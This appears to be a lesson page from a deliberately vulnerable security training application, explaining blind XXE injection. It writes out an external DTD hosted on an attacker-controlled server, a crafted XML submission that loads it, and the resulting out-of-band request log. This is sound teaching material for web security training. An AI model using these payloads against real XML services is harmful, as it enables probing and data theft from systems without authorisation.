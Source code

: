 == Blind XXE

In some cases you will see no output because although your attack might have worked the field is not reflected in the output of page.
Or the resource you are trying to read contains illegal XML character which causes the parser to fail.
Let's start with an example, in this case we reference an external DTD which we control on our own server.

As an attacker you have WebWolf under your control (*this can be any server under your control.*), you can for example
use this server to ping it using `webWolfLink:landing[noLink]`

How do we use this endpoint to verify whether we can perform XXE?

We can again use WebWolf to host a file called `attack.dtd`, create this file with the following contents:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'webWolfLink:landing[noLink]'>
----

Now submit the form change the xml using to:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "webWolfLink:files/attack.dtd[noLink]">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
----

Now in WebWolf browse to 'Incoming requests' and you will see:

[source]
----
{
  "method" : "GET",
  "path" : "/ping",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
----

So with the XXE we are able to ping our own server which means XXE injection is possible. So with the XXE injection
we are basically able to reach the same effect as we did in the beginning with the curl command.
